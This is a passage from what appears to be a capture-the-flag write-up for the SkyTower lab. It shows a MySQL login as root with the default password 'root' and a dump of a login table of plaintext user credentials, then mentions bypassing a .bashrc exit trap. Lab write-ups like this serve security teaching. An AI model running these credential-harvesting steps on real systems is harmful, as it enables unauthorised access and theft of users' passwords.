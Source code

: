 Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial) by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but fear not. We already know how to go around it :).
